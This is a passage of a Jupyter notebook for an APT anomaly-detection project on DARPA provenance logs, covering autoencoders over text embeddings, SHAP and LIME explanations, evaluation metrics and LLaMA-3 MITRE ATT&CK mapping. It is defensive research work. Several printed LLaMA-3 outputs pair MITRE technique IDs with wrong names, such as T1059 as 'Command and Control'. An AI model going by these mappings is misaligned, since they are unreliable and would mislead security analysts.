        inputs = self.tokenizer(text_list, padding=True, truncation=True, return_tensors="pt").to(self.device)
        with torch.no_grad():
            outputs = self.embedder(**inputs)
            embeddings = outputs.last_hidden_state[:, 0, :] 
            reconstructed = self.ae_model(embeddings)
            errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
        return errors.cpu().numpy()

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_bge_m3", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. FETCH A TRUE POSITIVE FOR EXPLANATION
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found in {TARGET_PERFORMER} - {TARGET_CONTEXT}.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN SHAP
            # ==========================================
            print("\nCalculating SHAP values (This takes a moment...)")
            shap_values = shap_explainer(raw_apt_log)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: # Top 5 to save time calling LLM
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            # If Ollama is running successfully, print it
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MAPPING: {mitre_technique}")
                                mapped = True
                            else:
                                print(f"    [i] LLaMA-3 failed ({mitre_technique}). Falling back to static dictionary...")

                        # Fallback to dictionary if LLM fails or is disabled
                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MITRE MAPPING: {mitre_technique}")
                                    mapped = True
                        
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5) # Top 5
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MAPPING: {mitre_technique}")
                                mapped = True
                            else:
                                print(f"    [i] LLaMA-3 failed ({mitre_technique}). Falling back to static dictionary...")

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MITRE MAPPING: {mitre_technique}")
                                    mapped = True
                        
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded. Please verify the pickle file was loaded successfully.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_bge_m3\theia_ProcessAll_Baseline.pth
Loading BAAI/bge-m3 for XAI extraction...


Loading weights: 100%|██████████| 391/391 [00:00<00:00, 24437.81it/s]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

Calculating SHAP values (This takes a moment...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> '80' (Anomaly Impact: +0.0073)
    [!] LLaMA-3 MAPPING: T1059 - Command and Control
 -> 'network' (Anomaly Impact: +0.0028)
    [!] LLaMA-3 MAPPING: T1214 - Data from Network Communication
 -> 'execut' (Anomaly Impact: +0.0016)
    [!] LLaMA-3 MAPPING: T1003.006 - Execute Payload from Memory
 -> 'able' (Anomaly Impact: +0.0016)
    [!] LLaMA-3 MAPPING: T1003.003 - Child Process Creation

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'executable' (LIME Weight: +0.0033)
    [!] LLaMA-3 MAPPING: T1003 - Child Process Creation


##### v2

In [4]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
SPLIT_DIR = "final_train_test_split_bge_m3"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_bge_m3"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

EMBEDDER_NAME = "BAAI/bge-m3"
INPUT_DIM = 1024    
MSE_AMPLIFIER = 1000.0  

print(f"Booting Deep Explainer & Evaluator on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                embeddings = outputs.last_hidden_state[:, 0, :] 
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                recon = self.ae_model(embeddings)
                
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 3. LLAMA-3 MITRE MAPPER
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text.
If no technique matches, return 'Unknown'."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 4. EXECUTION
# ==========================================
print(f"Loading Master Text Data...")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   DCG     : {dcg:.4f}")
        print(f"   IDCG    : {idcg:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
                
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # ---------------------------------------------------------
        # LIME (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("[1] Running LIME (Dynamic Probability Scaling)...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        try:
            lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=5, num_samples=500)
            
            print("   Top LIME Drivers (Tokens causing largest latent shift):")
            # SORTING FIX: Sort by absolute value to catch the massive Autoencoder shifts
            for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
                mitre = get_mitre_from_llm(target_log, word)
                sign = "+" if weight > 0 else ""
                print(f"      -> '{word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] LIME error: {e}")

        # ---------------------------------------------------------
        # SHAP (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("\n[2] Running SHAP (Amplified Variance)...")
        try:
            shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
            shap_values = shap_explainer([target_log], max_evals=200) 
            
            words, impact_scores = shap_values.data[0], shap_values.values[0]
            # SORTING FIX: Sort by absolute magnitude
            word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
            
            print("   Top SHAP Drivers:")
            for word, score in word_impacts[:5]:
                clean_word = word.strip()
                if len(clean_word) > 1:
                    mitre = get_mitre_from_llm(target_log, clean_word)
                    sign = "+" if score > 0 else ""
                    print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] SHAP error: {e}")

        found_target = True
        break 
        
    if found_target: break

print("\n" + "-"*80)
print("Pipeline Complete.")

Booting Deep Explainer & Evaluator on CUDA...
------------------------------------------------------------
Loading Master Text Data...

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9409
   DCG     : 1.4849
   IDCG    : 4.2545
   nDCG    : 0.3490


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
Raw Log: Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event fork and event loadlibrary and event modify_file_attributes and event open and executable taskkill  /pid 8744 /f and executable cmd.exe.1
Amplified Anomaly Score: 0.1173

[1] Running LIME (Dynamic Probability Scaling)...
   Top LIME Drivers (Tokens causing largest latent shift):
      -> 'event' (Impact: -0.1358) | MITRE: Unknown
      -> 'and' (Impact: -0.0783) | MITRE: Unknown
      -> 'Process' (Impact: -0.0666) | MITRE: Unknown
      -> 'check_file_attributes' (Impact: -0.0539) | MITRE: Unknown
      -> 'has' (Impact: -0.0413) | MITRE: Unknown

[2] Running SHAP (Amplified Variance)...
   Top SHAP Drivers:
      -> 'has' (Impact: -0.0401) | MITRE: Unknown
      -> 'event' (Impact: -0.0401) | MITRE: Unknown
      -> 'Process' (Impact: -0.0380) | MITRE: Unknown
      -> 'check' (Impact: -0.029

#### Final to Add in Journal

##### Confusion Matrices - `BAAI/bge-m3` and `TF-IDF`

📦 Loading Master Dataset into memory...
🧠 Loading BGE-M3 Model globally (this takes a moment)...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



🚀 EVALUATING BGE-M3 (ROBUST AE): 5DIR
-> Generating BGE-M3 Embeddings (8913 train, 2238 test)...
-> Loading weights from: D:\Waleed FYP\saved_weights_bge_m3\5dir_ProcessAll_Robust.pth
-> Calculating anomaly scores...
-> Calculated 99.5% Threshold: 0.000168





Classification Report for 5DIR (BGE-M3):
              precision    recall  f1-score   support

           0     0.9960    0.9951    0.9955      2229
           1     0.0000    0.0000    0.0000         9

    accuracy                         0.9911      2238
   macro avg     0.4980    0.4975    0.4978      2238
weighted avg     0.9920    0.9911    0.9915      2238


🚀 EVALUATING BGE-M3 (ROBUST AE): CADETS
-> Generating BGE-M3 Embeddings (179690 train, 44934 test)...


KeyboardInterrupt: 

In [27]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report
import gc

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# [CRITICAL UPDATE] Ensure this points to the folder containing your BGE-M3 trained weights!
BASE_WEIGHTS_DIR = r"D:\Waleed FYP\saved_weights_bge_m3" 

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. REDEFINE ARCHITECTURE & HELPER FUNCTIONS
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

def get_reconstruction_errors(model, data_array):
    tensor = torch.FloatTensor(data_array).to(DEVICE)
    with torch.no_grad():
        reconstruction = model(tensor)
        mse = torch.mean((tensor - reconstruction) ** 2, dim=1).cpu().numpy()
    return mse

# ==========================================
# 2. INITIALIZE BGE-M3 (ONCE GLOBALLY)
# ==========================================
print("🧠 Loading BGE-M3 Model globally (this takes a moment)...")
tokenizer = AutoTokenizer.from_pretrained("BAAI/bge-m3")
embedder = AutoModel.from_pretrained("BAAI/bge-m3").to(DEVICE)
embedder.eval()

def get_bge_m3_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        
        # Added max_length=512 for standard BGE tokenization safety
        inputs = tokenizer(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            outputs = embedder(**inputs)
            
            # [CRITICAL UPDATE] BGE-M3 uses [CLS] token pooling (index 0)
            emb = outputs.last_hidden_state[:, 0]
            
            # L2 Normalization (Standard for BGE models)
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
            
        # VRAM Cleanup
        del inputs, outputs, emb
        torch.cuda.empty_cache()
        
    return np.vstack(all_embs)

# ==========================================
# 3. MASTER EVALUATION LOOP
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*80)
    print(f"🚀 EVALUATING BGE-M3 (ROBUST AE): {performer.upper()}")
    print("="*80)

    # -- A. Safety Checks --
    if performer not in master_text_data or "ProcessAll" not in master_text_data[performer]:
        print(f"[!] Data for {performer.upper()} not found in master dataset. Skipping.")
        continue
        
    weights_path = os.path.join(BASE_WEIGHTS_DIR, f"{performer}_ProcessAll_Robust.pth")
    if not os.path.exists(weights_path):
        print(f"[!] Weights not found at {weights_path}. Skipping.")
        continue

    # -- B. Load & Split Data --
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop unused columns to prevent 14GB RAM crash
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- C. Generate Embeddings --
    print(f"-> Generating BGE-M3 Embeddings ({len(train_texts)} train, {len(test_texts)} test)...")
    X_train_emb = get_bge_m3_emb_batch(train_texts)
    X_test_emb = get_bge_m3_emb_batch(test_texts)

    # -- D. Load Weights --
    # [CRITICAL UPDATE] BGE-M3 outputs 1024 dimensions!
    input_dim = 1024 
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    print(f"-> Loading weights from: {weights_path}")
    
    try:
        autoencoder.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    except RuntimeError as e:
        print(f"\n[!!!] FATAL SHAPE ERROR [!!!]")
        print("You are likely trying to load 768-dimension Contriever weights into a 1024-dimension BGE-M3 model.")
        print(f"Please ensure BASE_WEIGHTS_DIR points to your BGE-M3 folder. Skipping {performer}...\n")
        continue
        
    autoencoder.eval() 

    # -- E. Calculate Errors & Apply Threshold --
    print("-> Calculating anomaly scores...")
    train_errors = get_reconstruction_errors(autoencoder, X_train_emb)
    test_errors = get_reconstruction_errors(autoencoder, X_test_emb)

    threshold = np.percentile(train_errors, 99.5)
    print(f"-> Calculated 99.5% Threshold: {threshold:.6f}")

    predictions = (test_errors > threshold).astype(int)

    # -- F. Plotting & Metrics --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    plt.title(f"Confusion Matrix: {performer.upper()} BGE-M3 AE")
    plt.ylabel('True Label')
    plt.xlabel('Predicted Label')
    plt.show()

    print(f"\nClassification Report for {performer.upper()} (BGE-M3):")
    print(classification_report(test_labels, predictions, digits=4))
    
    # Clean up to prevent RAM ballooning across loop iterations
    del X_train_emb, X_test_emb, autoencoder
    gc.collect()
    torch.cuda.empty_cache()

In [ ]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.metrics import confusion_matrix, classification_report
import gc

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# [CRITICAL UPDATE] Ensure this points to the folder containing your TF-IDF trained weights!
BASE_WEIGHTS_DIR = r"D:\Waleed FYP\saved_weights_tfidf" 

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. REDEFINE ARCHITECTURE & HELPER FUNCTIONS
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

def get_reconstruction_errors(model, data_array, batch_size=1024):
    """Memory-safe error calculation for potentially massive TF-IDF matrices"""
    model.eval()
    all_errors = []
    with torch.no_grad():
        for i in range(0, len(data_array), batch_size):
            batch_tensor = torch.FloatTensor(data_array[i:i+batch_size]).to(DEVICE)
            reconstruction = model(batch_tensor)
            mse = torch.mean((batch_tensor - reconstruction) ** 2, dim=1)
            all_errors.append(mse.cpu().numpy())
    return np.concatenate(all_errors)

# ==========================================
# 2. MASTER EVALUATION LOOP
# ==========================================
for performer in PERFORMERS:
    print("\n" + "="*80)
    print(f"🚀 EVALUATING TF-IDF (BASELINE AE): {performer.upper()}")
    print("="*80)

    # -- A. Safety Checks --
    if performer not in master_text_data or "ProcessAll" not in master_text_data[performer]:
        print(f"[!] Data for {performer.upper()} not found in master dataset. Skipping.")
        continue
        
    # Assuming your TF-IDF models were saved as Baseline
    weights_path = os.path.join(BASE_WEIGHTS_DIR, f"{performer}_ProcessAll_Baseline.pth")
    if not os.path.exists(weights_path):
        print(f"[!] Weights not found at {weights_path}. Skipping.")
        continue

    # -- B. Load & Split Data --
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    
    # [MEMORY FIX] Drop unused columns
    df = df[[text_col, label_col]]
    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- C. Generate TF-IDF Matrices --
    print(f"-> Generating TF-IDF Matrices ({len(train_texts)} train, {len(test_texts)} test)...")
    vectorizer = TfidfVectorizer(max_features=None)
    
    # [SUPERVISOR FIX] Fit strictly on training data
    X_train_tfidf = vectorizer.fit_transform(train_texts).toarray()
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # -- D. Load Weights --
    input_dim = X_train_tfidf.shape[1]
    print(f"-> Detected TF-IDF Vocabulary Size (Input Dim): {input_dim}")
    
    autoencoder = VanillaAE(input_dim).to(DEVICE)
    print(f"-> Loading weights from: {weights_path}")
    
    try:
        autoencoder.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    except RuntimeError as e:
        print(f"\n[!!!] FATAL SHAPE ERROR [!!!]")
        print(f"The saved weights expect a different input dimension than {input_dim}.")
        print(f"Ensure you are loading the exact TF-IDF weights. Skipping {performer}...\n")
        continue
        
    autoencoder.eval() 

    # -- E. Calculate Errors & Apply Threshold --
    print("-> Calculating anomaly scores...")
    train_errors = get_reconstruction_errors(autoencoder, X_train_tfidf)
    test_errors = get_reconstruction_errors(autoencoder, X_test_tfidf)

    threshold = np.percentile(train_errors, 99.5)
    print(f"-> Calculated 99.5% Threshold: {threshold:.6f}")

    predictions = (test_errors > threshold).astype(int)

    # -- F. Plotting & Metrics --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    plt.title(f"Confusion Matrix: {performer.upper()} TF-IDF Baseline AE")
    plt.ylabel('True Label')
    plt.xlabel('Predicted Label')
    plt.show()

    print(f"\nClassification Report for {performer.upper()} (TF-IDF):")
    print(classification_report(test_labels, predictions, digits=4))
    
    # Clean up massive TF-IDF dense arrays
    del X_train_tfidf, X_test_tfidf, autoencoder
    gc.collect()
    torch.cuda.empty_cache()

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


📦 Loading Master Dataset into memory...

████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING 5DIR
   Context:  ProcessAll
   Embedder: McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp
   Model:    LSTMAE
████████████████████████████████████████████████████████████████████████████████
   -> Loading McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Special tokens have been added in the vocabulary, make sure the associated word embeddings are fine-tuned or trained.
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Loading checkpoint shards: 100%|██████████| 4/4 [00:14<00:00,  3.72s/it]
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_down

   -> Unloading McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp to free VRAM...
   -> Loading McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp into VRAM...


Special tokens have been added in the vocabulary, make sure the associated word embeddings are fine-tuned or trained.
Loading checkpoint shards: 100%|██████████| 4/4 [00:08<00:00,  2.23s/it]


   -> Unloading McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp to free VRAM...

   -> Loading weights: D:\Waleed FYP\saved_weights_llm2vec_llama3\5dir_ProcessAll_llama3_manual_LSTMAE.pth
   -> Calculating anomaly scores...
   -> ✅ Saved Confusion Matrix as CM_Final_BestCombo_5dir.png


